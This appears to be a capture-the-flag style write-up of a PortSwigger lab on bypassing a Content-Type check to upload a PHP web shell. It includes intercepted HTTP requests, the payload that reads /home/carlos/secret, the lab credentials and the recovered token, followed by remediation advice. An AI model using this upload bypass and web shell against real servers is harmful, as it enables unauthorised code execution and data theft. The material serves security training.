




# Lab: Web shell upload via Content-Type restriction bypass
**Topic:** File Upload Vulnerabilities  
**Difficulty:** Practitioner  
**Link:** [https://portswigger.net](https://portswigger.net)

##  Objective
Bypass server-side image validation controls on an avatar upload form to successfully upload a PHP web shell, execute arbitrary code to read the secret file at `/home/carlos/secret`, and submit the extracted token to solve the challenge.

##  Enumeration & Analysis
* **Input Vector:** The application features an avatar image upload form at `/my-account/avatar` which uses a standard `POST` multipart request format.
* **Filter Constraint:** Uploading a standard `.php` script file directly results in an HTTP `403 Forbidden` error, indicating the server implements validation filters.
* **Vulnerability Flaw:** Analyzing the HTTP traffic reveals the server relies entirely on the client-supplied `Content-Type` header parameter (MIME type) inside the multipart form body payload instead of analyzing the actual file contents.
* **Exploitation Strategy:** Since the MIME type header is controlled by the user, intercepting the request inside **Burp Suite** and manually changing `Content-Type: application/x-php` to `Content-Type: image/jpeg` will bypass the application firewall.

---

##  Traffic Capture Logs

###  Intercepted Server Rejection (403 Forbidden)
The baseline block encountered in your proxy history when attempting to submit an un-spoofed web shell file:
```http
POST /my-account/avatar HTTP/1.1
Host: 0aa8007104c1f29181218504007c0041.web-security-academy.net
Cookie: session=eMAIeLExDn4Qua4lVRYCwaNWXc3KpDrF
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysUgOLA7A6LXlyqte
Content-Length: 470

------WebKitFormBoundarysUgOLA7A6LXlyqte
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundarysUgOLA7A6LXlyqte--
```

###  Spoofed Header Bypass Submission & Validation
Altering the MIME parameter inside **Burp Repeater** forces the backend validation engine to accept the upload:
```http
POST /my-account/avatar HTTP/1.1
Host: 0aa8007104c1f29181218504007c0041.web-security-academy.net
Cookie: session=eMAIeLExDn4Qua4lVRYCwaNWXc3KpDrF
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysUgOLA7A6LXlyqte
Content-Length: 384

------WebKitFormBoundarysUgOLA7A6LXlyqte
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundarysUgOLA7A6LXlyqte--

--------------------------------------------------

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 132

The file avatars/exploit.php has been uploaded.
```

###  Successful Execution Flag Output
Querying the execution path triggers the server runtime to evaluate our PHP payload, disclosing the target secret token:
```http
GET /files/avatars/exploit.php HTTP/1.1
Host: 0aa8007104c1f29181218504007c0041.web-security-academy.net
Cookie: session=eMAIeLExDn4Qua4lVRYCwaNWXc3KpDrF

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 32

gz4GlgApNoIKPEyEyPoM-k4uoJFMKV9n
```

---

##  Exploitation Step-by-Step
1. Log in to the application dashboard using the credentials `wiener:peter` and go to the **My Account** section.
2. Create a local script file named `exploit.php` containing the target code string:
   `<?php echo file_get_contents('/home/carlos/secret'); ?>`
3. Try to upload this file using the avatar selector. Look at your **Burp Proxy HTTP history** tab to identify the request and note the server's `403 Forbidden` response.
4. Right-click the blocked `POST /my-account/avatar` request and select **Send to Repeater**.
5. Inside the request body parameter area, locate the sub-header field stating: `Content-Type: application/x-php`
6. Manually replace that string value with a trusted asset format declaration: `Content-Type: image/jpeg`
7. Click **Send**. The server is fooled by the updated header, accepts the script file, and returns a `200 OK` confirming the file has been successfully uploaded to the `/files/avatars/` directory.
8. Go to your browser or open a clean tab in Repeater to query the execution point path: `https://web-security-academy.net`
9. Run the request. Copy the 32-character secret flag output printed inside the response pane: `gz4GlgApNoIKPEyEyPoM-k4uoJFMKV9n`.
10. Click **Submit solution** at the top of the lab banner, enter the token, and complete the challenge.

---

##  Proof of Concept (PoC)

### Initial Traffic Map Rejection Analysis


### Header Parameter Forgery Configuration


### Direct Endpoint Query Traffic Routing


### Final Lab Verification Notification Banner


---

##  Remediation
* **Abandon Client Metadata Trust Models:** Never develop backend application firewall filters that inspect easily forgeable user-controlled headers (like `Content-Type`) to make server-side security authorization boundaries.
* **Enforce Strict Content Signature Analysis:** Utilize server-side libraries to verify a file's actual type signature by examining its raw magic bytes directly on the disk rather than relying on browser declarations.
* **Isolate Execution Contexts:** Disable code interpretation and script execution privileges entirely inside upload directories by applying restrictive configurations (e.g., `Options -ExecCGI` or disabling specific handlers) across asset directories.
